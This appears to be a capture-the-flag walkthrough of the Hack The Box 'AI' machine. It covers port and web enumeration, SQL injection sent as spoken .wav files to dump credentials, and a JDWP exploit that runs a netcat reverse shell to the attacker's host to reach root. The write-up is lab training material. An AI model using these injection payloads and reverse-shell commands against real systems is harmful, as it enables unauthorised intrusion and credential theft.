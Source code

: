 ```yaml
---
layout: page
title: AI
order: 9
hide: true
auto-header: none
---
```

<a href="#" class="image centered"><img src="/assets/images/ai.png" alt="ai" /></a>

<h2>AI</h2>
<h3>The Basics</h3>
The first thing we should do is map the box IP address to the box name  .htb in the `/etc/hosts` file.
`10.10.10.163   ai.htb`

<h3>Initial Scan</h3>
Next up we will run a all port NMAP scan `nmap -sC -sV -p- 10.10.10.163`. We get results back for 2 ports: 22 SSH open and 80 HTTP open.

![Initial NMAP scan](/assets/images/ai-initial-scan.png)

<h3>Web Enumeration</h3>
Let's take a look at port 80 and run a gobuster.

![gobuster results](/assets/images/ai-gobuster-results.png)

We quickly get some promising results. We'll take a look at **ai.php** and **intelligence.php**. It looks like we have some upload functionality for `.wav` files. The AI will process the `.wav` files into a search query. Looking at the intelligence page, we can get an overview of some commands and their results after processing by the AI. The page also hints to Microsoft and a **Male US** voice model. After some googling I found a free [Text-To-Speech service](https://www.text2speech.org/) with a Male US voice model and an extended [Speech-To-Text table](https://support.microsoft.com/en-us/help/12427/windows-speech-recognition-commands).

![ai](/assets/images/ai-ai.png)

![intelligence](/assets/images/ai-intelligence.png)

<h3>Generating wav files to dump credentials from the MySQL database</h3>
The speech-to-text table contains output that strongly hints to SQL injection, like `union, schema, comma, period, -- -`. So let's try to generate a `.wav` file and test this.

We generate [single-quote.wav](/assets/audio/single-quote.wav) which contains "open single quote", this should result in a single quote after processing by the AI.

![sqli test](/assets/images/ai-sqli-test.png)

Next up let's try dumping credentials. We generate [username.wav](/assets/audio/username.wav) and [password.wav](/assets/audio/password.wav) which contain:
~~~
open single quote union select         yusername from users comment database
open single quote union selectpassword from users comment database
~~~

To make sure the AI parses our commands correctly we have to play around with the speed, spacing and spelling.

![username](/assets/images/ai-username.png)

![password](/assets/images/ai-password.png)

We successfully extract a username and password.

<h3>User flag and enumeration</h3>
With our credentials, we can SSH into the user and grab the user flag.
`ssh al***@ai.htb`.

![user flag](/assets/images/ai-user-flag.png)

For the next part we will do some heavy enumeration. We run the following scripts and go through the output to look for anything of interest:

* [Jalesc](https://github.com/itsKindred/jalesc)
* [LinEnum](https://github.com/Cerbersec/scripts/blob/master/linux/LinEnum.sh)
* [Linpeas](https://github.com/Cerbersec/scripts/blob/master/linux/linpeas.sh)
* [PSPY](https://github.com/Cerbersec/scripts/blob/master/linux/pspy64)

Looking at the running processes output from **linpeas.sh** we can see `-agentlib:jdwp` is flagged with a **99% PE**.

![linpeas](/assets/images/ai-linpeas.png)

Monitoring **pspy64** we see some interesting output regarding `/root/tomcat.sh` which seems to be killing and restarting a Tomcat instance which spawns the same process which was flagged by **linpeas**.

![pspy](/assets/images/ai-pspy.png)

If we take a look at the network connections and listeners with `netstat -auntp` we see **localhost** is listening on ports 8000, 8080, 8005 and 8009. From the previous output we know the Tomcat server is running on port 8000.

![netstat](/assets/images/ai-netstat.png)

<h3>Exploiting JDWP to gain a root shell</h3>
The Java Debug Wire Protocol (JDWP) enables remote debugging of java applications with the Java Debugger (JDB). Googling for a [JDWP exploit](https://github.com/IOActive/jdwp-shellifier) will find us a Github Repository with a JDWP exploitation script called **jdwp-shellifier.py**.

Because the default netcat binary on the box doesn't support the `-e` flag, we will upload our own `/usr/bin/nc` to `/tmp`, we will also upload the **jdwp-shellifier.py** script.
Before we run the script we will set up a listener with `nc -lnvp 444`. Now we can run the exploit:

~~~
./jdwp-shellifier.py -t 127.0.0.1 -p 8000 --break-on 'java.lang.String.indexOf' --cmd '/tmp/nc  10.10.14.XXX 444 -e /bin/bash'
~~~

![jdwp exploit](/assets/images/ai-jdwp.png)

We successfully get a connection back and can upgrade our shell using python:

~~~python
python -c "import pty;pty.spawn('/bin/bash')"
export TERM=xterm
~~~

Now we can grab the root flag.

![root flag](/assets/images/ai-root-flag.png)